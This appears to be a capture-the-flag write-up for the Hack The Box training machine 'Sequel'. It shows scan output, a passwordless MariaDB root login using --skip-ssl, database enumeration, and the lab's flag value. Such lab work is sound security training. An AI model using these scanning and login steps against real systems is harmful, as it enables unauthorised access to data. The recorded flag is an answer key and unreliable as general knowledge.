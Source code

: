 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file, go in the same directory and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name, watch previous rooms for more details.
# Task 1

During our scan, which port do we find serving MySQL?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Sequel]
└─$ rustscan -a sequel.htb 

Open 10.129.95.232:3306

3306/tcp open  mysql?  syn-ack ttl 63
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 109
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, InteractiveClient, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsTransactions, SupportsCompression, FoundRows, Speaks41ProtocolOld, Speaks41ProtocolNew, Support41Auth, IgnoreSigpipes, ConnectWithDatabase, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 4|8@vT!Ds;fq'hYdlpp_
|_  Auth Plugin Name: mysql_native_password
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port


```

The answer is pretty clear here
# Task 2

What community-developed MySQL version is the target running?

```bash
 MariaDB 
```
# Task 3

When using the MySQL command line client, what switch do we need to use in order to specify a login username?

```bash
 -u
```
# Task 4

Which username allows us to log into this MariaDB instance without providing a password?

```bash
  root
```
# Task 5

In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

```bash
 *
```
# Task 6

In SQL, what symbol do we need to end each query with?

```bash
 ;
```
# Task 7

There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

We enter the DB with the following commands :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Sequel]
└─$ mysql -u root -h 10.129.95.232
```

When I try to connect to a server using mysql cli commands, I get the error `ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it` .

> This can be solved by adding the `--skip_ssl` parameter.

If you don't want to type `--skip-ssl` on the command line every time, you can instead add this to `${HOME}/.my.cnf`:

```sql
[client]
skip-ssl = true
```

Let's try :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 1/Sequel]
└─$ mysql -u root -h sequel.htb --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 37
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,285 sec)
```

Obviously the answer is `htb` 
# Submit Flag

Submit root flag

To retrieve that we look into databases with the following commands :

```bash

MariaDB [(none)]> use htb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,304 sec)


MariaDB [htb]> SELECT * from config;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,070 sec)

```